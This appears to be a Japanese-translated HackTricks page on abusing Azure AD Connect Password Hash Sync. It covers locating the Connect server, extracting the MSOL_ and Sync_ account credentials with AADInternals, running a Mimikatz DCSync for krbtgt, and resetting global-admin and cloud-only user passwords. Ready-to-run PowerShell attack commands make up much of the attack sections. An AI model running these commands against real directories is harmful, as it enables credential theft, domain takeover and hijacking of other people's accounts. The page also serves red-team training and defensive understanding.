# Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本情報

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **パスワードハッシュの同期**は、ハイブリッドアイデンティティを実現するために使用されるサインイン方法の1つです。 **Azure AD Connect**は、オンプレミスのActive DirectoryインスタンスからクラウドベースのAzure ADインスタンスにユーザーのパスワードのハッシュのハッシュを同期します。

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

これは、企業がオンプレミスのADをAzure ADと同期させるために使用する**最も一般的な方法**です。

すべての**ユーザー**と**パスワードハッシュのハッシュ**がオンプレミスからAzure ADに同期されます。ただし、**平文のパスワード**や**元の** **ハッシュ**はAzure ADに送信されません。\
さらに、**組み込み**のセキュリティグループ（ドメイン管理者など）はAzure ADに**同期されません**。

**ハッシュの同期**は**2分ごと**に行われます。ただし、デフォルトでは、**パスワードの有効期限**と**アカウントの有効期限**はAzure ADに**同期されません**。したがって、**オンプレミスのパスワードが期限切れ**（変更されていない）であるユーザーは、古いパスワードを使用して**Azureリソースにアクセス**し続けることができます。

オンプレミスのユーザーがAzureリソースにアクセスしようとすると、**認証はAzure ADで行われます**。

**PHS**は、**アイデンティティ保護**やAADドメインサービスなどの機能に必要です。

## ピボット

PHSが構成されると、いくつかの**特権アカウント**が自動的に**作成**されます：

* アカウント**`MSOL_<installationID>`**は、オンプレミスADに自動的に作成されます。このアカウントには**ディレクトリ同期アカウント**の役割が与えられています（[ドキュメント](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)を参照）これは、オンプレミスADで**レプリケーション（DCSync）権限**を持っていることを意味します。
* アカウント**`Sync_<name of on-prem ADConnect Server>_installationID`**がAzure ADに作成されます。このアカウントは、Azure AD内の**任意のユーザー**（同期されたユーザーまたはクラウド専用ユーザー）のパスワードを**リセット**できます。

これらの2つの特権アカウントのパスワードは、**Azure AD ConnectがインストールされているサーバーのSQLサーバー**に**保存**されています。管理者は、これらの特権ユーザーの平文のパスワードを抽出できます。\
データベースは`C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`にあります。

テーブルの1つから構成を抽出することが可能で、1つは暗号化されています：

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**暗号化された構成**は**DPAPI**で暗号化されており、オンプレミスADの**`MSOL_*`**ユーザーの**パスワード**とAzureADの**Sync\_\***のパスワードを含んでいます。したがって、これらを侵害することでADおよびAzureADへの権限昇格が可能です。

これらの資格情報がどのように保存され、復号化されるかの[完全な概要はこのトークで見つけることができます](https://www.youtube.com/watch?v=JEIR5oGCwdg)。

### **Azure AD Connectサーバーの特定**

**Azure AD Connectがインストールされているサーバー**がドメインに参加している場合（ドキュメントで推奨されている）、次の方法で見つけることができます：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_\*の悪用
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
これらの資格情報を取得するために、[**adconnectdump**](https://github.com/dirkjanm/adconnectdump)を使用することもできます。
{% endhint %}

### Sync\_\*の悪用

**`Sync_*`** アカウントを侵害することで、任意のユーザー（グローバル管理者を含む）の**パスワードをリセット**することが可能です。
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
クラウドユーザーの**パスワードのみを変更する**ことも可能です（予期しない場合でも）。
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
このユーザーのパスワードをダンプすることも可能です。

{% hint style="danger" %}
別のオプションは、**サービスプリンシパルに特権のある権限を割り当てる**ことで、**Sync**ユーザーが**権限**を持っているため、**そのサービスプリンシパルにアクセスする**ことで権限昇格を行うことです。
{% endhint %}

### シームレスSSO

PHSを使用してシームレスSSOを利用することが可能で、他の悪用に対して脆弱です。以下で確認してください：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19_AD_Im_in_your_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
